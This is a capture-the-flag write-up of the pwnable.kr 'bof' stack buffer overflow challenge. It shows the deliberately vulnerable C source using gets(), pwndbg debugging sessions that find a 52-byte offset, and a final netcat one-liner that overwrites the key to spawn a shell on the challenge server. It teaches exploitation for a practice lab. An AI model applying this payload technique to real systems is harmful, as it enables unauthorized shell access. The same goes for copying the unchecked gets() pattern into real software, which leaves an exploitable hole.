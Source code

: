 This challenge belong to buffer overflow challenge. When you use some weak functions like strcpy, gets, etc. which do not attually check the size of the text and the text will overwrite the adjacency region of the buffer. Because of the alignment of the stack frame, we can use buffer overflow to overwrite local variable, parameter or even the return address which we can inject the address of arbitrary (malicous) function, then the original program run this function with there privilege.

Check the source code of the `bof` challenge.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The following picture is the stack frame. The gets function does not check the size of the input text. The parameter `key` contains the value `0xdeadbeef` as an input. So, we need to change it to `0xcafebabe` to make the condition goes true.


![stack_frame](stack_frames.png)


To do that, we need to check where the local variable `overflowme` and parameter `key` are stored. Then we can overwrite the value of `key`.

We need to debug the `bof` program. We can use `pwndbg` which is an add-in for gdb with more functions.

We use the **gdb** and disasemble the `main` function. We need to run it first, before disassemble.

```
tranad@tranad-GV62-7RD:~/pwnable.kr/bof$ gdb -q ./bof
pwndbg: loaded 175 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./bof...(no debugging symbols found)...done.
pwndbg> disassemble main
Dump of assembler code for function main:
   0x5655568a <+0>:	push   ebp
   0x5655568b <+1>:	mov    ebp,esp
   0x5655568d <+3>:	and    esp,0xfffffff0
   0x56555690 <+6>:	sub    esp,0x10
   0x56555693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:	call   0x5655562c <func>
   0x5655569f <+21>:	mov    eax,0x0
   0x565556a4 <+26>:	leave  
   0x565556a5 <+27>:	ret    
End of assembler dump.
pwndbg> 

```


Put the break point at `0x5655569a` or `main+16` to jump into the call function `func` and run it.

```
pwndbg> r
Starting program: /home/tranad/pwnable.kr/bof/bof 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x69a

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0x0
 EDX  0x0
 EDI  0x0
 ESI  0x0
 EBP  0x0
 ESP  0xffffd0e0 ◂— 0x1
 EIP  0xf7fd6c70 ◂— mov    eax, esp
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
 ► 0xf7fd6c70    mov    eax, esp
   0xf7fd6c72    sub    esp, 0xc
   0xf7fd6c75    push   eax
   0xf7fd6c76    call   0xf7fd7800
 
   0xf7fd6c7b    add    esp, 0x10
   0xf7fd6c7e    mov    edi, eax
   0xf7fd6c80    call   0xf7fd6c60
 
   0xf7fd6c85    add    ebx, 0x2637b
   0xf7fd6c8b    mov    eax, dword ptr [ebx - 0x70c]
   0xf7fd6c91    pop    edx
   0xf7fd6c92    lea    esp, [esp + eax*4]
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffd0e0 ◂— 0x1
01:0004│      0xffffd0e4 —▸ 0xffffd2b0 ◂— 0x6d6f682f ('/hom')
02:0008│      0xffffd0e8 ◂— 0x0
03:000c│      0xffffd0ec —▸ 0xffffd2d0 ◂— 0x54554c43 ('CLUT')
04:0010│      0xffffd0f0 —▸ 0xffffd2e6 ◂— 0x435f534c ('LS_C')
05:0014│      0xffffd0f4 —▸ 0xffffd8d2 ◂— 0x4d5f434c ('LC_M')
06:0018│      0xffffd0f8 —▸ 0xffffd8ed ◂— 0x5353454c ('LESS')
07:001c│      0xffffd0fc —▸ 0xffffd90f ◂— 0x505f434c ('LC_P')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 f7fd6c70
pwndbg> 
```

We disasemble the function `func`

```
pwndbg> disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:	call   0x56555645 <func+25>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0x56555650 <func+36>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:	call   0x56555665 <func+57>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:	call   0x56555673 <func+71>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0x56555684 <func+88>
   0x56555688 <+92>:	leave  
   0x56555689 <+93>:	ret    
End of assembler dump.
pwndbg> 
```

Now we can put the break point in the compare funtion. The goal of the next step is to find where is the overflowme is stored and where is the `0xdeadbeef` is stored.

```
pwndbg> b *0x56555654
Breakpoint 2 at 0x56555654
```

Continue until we need to type the input. Just put `AAAAAAAAAAAAAAAAAAAA`

```
pwndbg> c
Continuing.
overflow me : 
AAAAAAAAAAAAAAAAAAAA

Breakpoint 3, 0x56555654 in func ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0xffffcffc ◂— 0x41414141 ('AAAA')
 EBX  0x0
 ECX  0xf7faf5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xf7fb089c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x0
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0xffffd028 —▸ 0xffffd048 ◂— 0x0
 ESP  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
 EIP  0x56555654 (func+40) ◂— cmp    dword ptr [ebp + 8], 0xcafebabe
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
 ► 0x56555654 <func+40>    cmp    dword ptr [ebp + 8], 0xcafebabe
   0x5655565b <func+47>    jne    func+63 <0x5655566b>
    ↓
   0x5655566b <func+63>    mov    dword ptr [esp], 0x565557a3
   0x56555672 <func+70>    call   puts <0xf7e3eb40>
 
   0x56555677 <func+75>    mov    eax, dword ptr [ebp - 0xc]
   0x5655567a <func+78>    xor    eax, dword ptr gs:[0x14]
   0x56555681 <func+85>    je     func+92 <0x56555688>
 
   0x56555683 <func+87>    call   __stack_chk_fail <0xf7ee0b60>
 
   0x56555688 <func+92>    leave  
   0x56555689 <func+93>    ret    
 
   0x5655568a <main>       push   ebp
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
01:0004│      0xffffcfe4 ◂— 0x0
... ↓
03:000c│      0xffffcfec ◂— 0x6fe9c300
04:0010│      0xffffcff0 ◂— 9 /* '\t' */
05:0014│      0xffffcff4 —▸ 0xffffd2b0 ◂— 0x6d6f682f ('/hom')
06:0018│      0xffffcff8 —▸ 0xf7e074a9 (__new_exitfn+9) ◂— add    ebx, 0x1a7b57
07:001c│ eax  0xffffcffc ◂— 0x41414141 ('AAAA')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 56555654 func+40
   f 1 5655569f main+21
   f 2 f7defe81 __libc_start_main+241
Breakpoint *0x56555654
```

We can see the line `esp  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')`. So, now we check the data from the address `0xffffcffc` to see how our input is stored by using `x\20xw` which dump 20 word in hexa.

```
pwndbg> x/20xw 0xffffcffc
0xffffcffc:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd00c:	0x41414141	0xf7faf300	0x00000000	0x56556ff4
0xffffd01c:	0x6fe9c300	0x00000000	0xf7e075db	0xffffd048
0xffffd02c:	0x5655569f	0xdeadbeef	0x00000000	0x565556b9
0xffffd03c:	0x00000000	0xf7faf000	0xf7faf000	0x00000000
```

`0x41414141` is `AAAA`. We can see `0xdeadbeef` which is the data of parameter key in line 3. We need to overwrite this value with `0xcafebabe`. From the begining address of overflowme to key, it takes 52 byes (from `0xffffcffc` to `0xffff0d30`). Another note is: we need to write `0xcafebabe` in litlle endian.


The final command to hack it
```
(python2 -c "print 52*'A'+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
```

   
